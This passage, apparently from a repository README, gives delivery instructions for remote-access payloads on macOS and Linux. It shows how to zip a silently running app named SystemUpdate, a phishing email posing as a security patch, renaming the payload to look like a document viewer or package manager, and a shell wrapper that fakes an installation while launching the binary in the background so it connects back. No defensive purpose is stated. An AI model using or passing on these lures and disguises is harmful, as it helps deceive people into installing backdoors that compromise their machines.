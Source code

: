 ### macOS (.app)

**Delivery Options:**

1. **Compress First** (Important!)

   ```bash
   cd payloads
   zip -r SystemUpdate.zip SystemUpdate.app
   ```

   Then send `SystemUpdate.zip` (macOS will auto-extract when opened)

2. **Email**

   ```
   Subject: "macOS Security Update Required"
   Attach: SystemUpdate.zip
   Body: "Double-click to install security patch"
   ```

3. **Disguise as Document**
   ```bash
   # Rename to look like document viewer
   mv SystemUpdate.app DocumentViewer.app
   zip -r DocumentViewer.zip DocumentViewer.app
   ```

**What Happens:**

- Target extracts .zip → Gets .app bundle
- Double-click app → Runs without terminal
- Silent execution → Connects back
- No visible windows or prompts!

### Linux Binary

**Delivery Options:**

1. **Shell Script Wrapper**

   ```bash
   #!/bin/bash
   # Create innocent-looking installer
   echo "Installing updates..."
   ./system-update &
   echo "Installation complete!"
   ```

   Save as `install.sh` and send with binary

2. **Disguise as System Tool**

   ```bash
   # Rename to look like package manager
   mv system-update apt-updater

   # Or like common tool
   mv system-update network-tool
   ```
